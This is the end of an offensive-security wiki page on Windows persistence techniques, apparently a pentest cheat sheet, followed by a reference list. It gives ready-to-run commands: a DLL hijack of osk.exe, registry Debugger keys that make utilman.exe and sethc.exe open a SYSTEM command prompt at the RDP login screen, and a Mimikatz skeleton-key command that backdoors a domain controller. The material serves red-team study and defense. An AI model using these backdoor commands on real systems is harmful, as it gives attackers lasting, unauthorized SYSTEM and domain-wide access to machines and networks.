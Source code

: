 {% tab title="Windows 10+" %}
You can exploit a DLL hijacking vulnerability in the On-Screen Keyboard **osk.exe** executable by creating a malicious **HID.dll** in `C:\Program Files\Common Files\microsoft shared\ink\HID.dll`.
{% endtab %}
{% endtabs %}

### RDP Backdoors

#### utilman.exe

After adding this registry key, RDP into the machine. At the login screen, press `Win+U` to get a cmd.exe prompt as NT AUTHORITY\SYSTEM.

```text
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

#### sethc.exe

After adding this registry key, RDP into the machine. At the login screen, repeatedly press F5 when you are at the RDP login screen to get a cmd.exe prompt as NT AUTHORITY\SYSTEM.

```text
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

### Skeleton Key

Mimikatz gives you the opportunity to backdoor an entire domain at once by using the skeleton key module.  This must be run by a user with Domain Admin credentials to work properly.

```text
# Exploitation Command (run as Domain Admin):
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <FQDN_of_DC>

# Login using the password "mimikatz"
Enter-PSSession -ComputerName <Any_Domain_Computer> -Credential <Domain>\Administrator
```

## References

* [https://pentestlab.blog/2020/01/13/persistence-image-file-execution-options-injection/](https://pentestlab.blog/2020/01/13/persistence-image-file-execution-options-injection/)
* [A view of persistence - Rastamouse](https://rastamouse.me/2018/03/a-view-of-persistence/)
* [Windows Persistence Commands - Pwn Wiki](http://pwnwiki.io/#!persistence/windows/index.md)
* [SharPersist Windows Persistence Toolkit in C - Brett Hawkins](http://www.youtube.com/watch?v=K7o9RSVyazo)
* [Old Tricks Are Always Useful: Exploiting Arbitrary File Writes with Accessibility Tools - @phraaaaaaa](https://iwantmore.pizza/posts/arbitrary-write-accessibility-tools.html)
* [Persistence - Checklist - @netbiosX](https://github.com/netbiosX/Checklists/blob/master/Persistence.md)
* [Persistence – Winlogon Helper DLL - @netbiosX](https://pentestlab.blog/2020/01/14/persistence-winlogon-helper-dll/)
* [Persistence - BITS Jobs - @netbiosX](https://pentestlab.blog/2019/10/30/persistence-bits-jobs/)
* [Persistence – Image File Execution Options Injection - @netbiosX](https://pentestlab.blog/2020/01/13/persistence-image-file-execution-options-injection/)
* [Persistence – Registry Run Keys - @netbiosX](https://pentestlab.blog/2019/10/01/persistence-registry-run-keys/)
* [https://pureinfotech.com/enable-disable-firewall-windows-10/](https://pureinfotech.com/enable-disable-firewall-windows-10/) - [Mauro Huc](https://pureinfotech.com/author/mauhuc/) [@pureinfotech](https://twitter.com/@pureinfotech)
* [http://vcloud-lab.com/entries/powershell/microsoft-powershell-remotely-write-edit-modify-new-registry-key-and-data-value](http://vcloud-lab.com/entries/powershell/microsoft-powershell-remotely-write-edit-modify-new-registry-key-and-data-value) - [@KunalAdapi](https://twitter.com/kunalUdapi)

